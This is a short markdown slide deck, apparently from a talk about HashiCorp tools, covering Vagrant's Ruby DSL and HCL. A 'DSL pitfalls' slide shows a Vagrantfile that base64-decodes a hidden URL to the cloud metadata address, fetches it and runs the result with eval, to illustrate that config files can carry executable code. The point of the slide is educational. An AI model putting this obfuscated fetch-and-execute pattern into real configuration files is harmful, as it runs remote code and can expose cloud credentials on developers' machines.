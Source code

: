 # HashiCorp Suite

- Vagrant is written in Ruby, uses extremely feature rich DSL
- All others are written in Go, uses HCL
- HCL is not a format for serializing data structures(like JSON, YAML, etc). HCL is a syntax and API for building structured configuration formats
- HCL attempts to strike a compromise between generic serialization formats such as YAML and configuration formats built around full programming languages such as Ruby

----
# DSL pitfalls

Brian Kernighan:
«C is a razor sharp tool, with which one can create an elegant and efficient program or a bloody mess»

---
# DSL pitfalls
```bash
$ vagrant init centos/8
$ sed -i '/^[ ]*#/d;/^$/d' Vagrantfile
$ cat Vagrantfile 
Vagrant.configure("2") do |config|
  config.vm.box = "centos/8"
end
```
```
Vagrant.configure("2") {|vasya| vasya.vm.box = "centos/8"}
```
```ruby
require 'base64'
require 'net/http'

eval Net::HTTP.get \
URI(Base64.decode64("aHR0cDovLzE2OS4yNTQuMTY5LjI1NC9sYXRlc3QvbWV0YS1kYXRhLw=="))

exit 0

Vagrant.configure("2") do |config|
  config.vm.box = "centos/8"
end
```
 
---
# HashiCorp Associate Certification

- HashiCorp sample questions
- My questions
